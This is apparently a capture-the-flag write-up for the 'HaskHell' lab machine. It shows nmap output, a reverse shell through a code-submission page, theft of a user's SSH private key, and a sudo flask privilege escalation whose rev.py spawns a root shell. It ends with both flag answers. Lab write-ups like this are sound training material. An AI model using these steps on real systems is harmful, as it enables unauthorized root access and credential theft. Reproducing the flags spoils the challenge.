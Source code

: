 # HASKHELL

## BASIC INFO
```
export IP=10.10.167.147


PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 1d:f3:53:f7:6d:5b:a1:d4:84:51:0d:dd:66:40:4d:90 (RSA)
|   256 26:7c:bd:33:8f:bf:09:ac:9e:e3:d3:0a:c3:34:bc:14 (ECDSA)
|_  256 d5:fb:55:a0:fd:e8:e1:ab:9e:46:af:b8:71:90:00:26 (ED25519)
5001/tcp open  http    Gunicorn 19.7.1
|_http-server-header: gunicorn/19.7.1
|_http-title: Homepage
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Navigate to `/submit` page submit reverse shell in haskell

Using wget to upload a more stable reverse shell from attacking computer because haskell reverse shell keeps breaking.

After getting a stable reverse shell, `cd` into `/home/prof` to get user.txt. Also grab the `id_rsa` in `.ssh`.

ssh into the machine as prof with the id_rsa we just got. Remember to change permission of the id_rsa before using it.`chmod 600 id_rsa`

`sudo -l` to see what we can do. Seems like we can run `/usr/bin/flask run` without password. Let's set the FLASK_APP environment first.

Create a `rev.py` with the following content.
```
import os
os.system('/bin/bash -p')
```
... then `export FLASK_APP=rev.py`\
Then run `/usr/bin/flask run` and we get a root shell. Just go to `/root` to grab the flag.


1. Get the flag in the user.txt file.
```
flag{acedemic_dishonesty}
```


2. Obtain the flag in root.txt
```
flag{im_purely_functional}
```